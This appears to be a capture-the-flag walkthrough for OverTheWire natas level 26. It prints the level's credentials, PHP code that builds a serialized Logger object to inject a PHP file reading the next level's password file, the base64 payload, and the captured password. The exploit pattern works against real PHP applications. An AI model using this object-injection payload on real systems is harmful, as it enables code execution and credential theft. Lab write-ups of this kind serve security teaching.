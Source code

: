 # [natas 26](http://natas26.natas.labs.overthewire.org)

    Username: natas26
    Password: oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T

The level is about [php object injection](https://www.owasp.org/index.php/PHP_Object_Injection).
Let's create a new object using code below.

    <?php
        class Logger{
            private $logFile;
            private $initMsg;
            private $exitMsg;
            function __construct($file){
                $this->initMsg="";
                $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27') ?>";
                $this->logFile = "img/trojan.php";
            }
            function log($msg){
                ;
            }
            function __destruct(){
                ;
            }
        }
        $new_object = new Logger("hello");
        echo base64_encode(serialize($new_object));
    ?>

After serializing and encoding, we get the object.

    Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNDoiaW1nL3Ryb2phbi5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czowOiIiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo2MToiPD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygnL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKSA/PiI7fQ==

Then replace cookie's drawing field with the object and browse to "trojan.php".

    http://natas26.natas.labs.overthewire.org/img/trojan.php

We steal the password successfully.

    55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
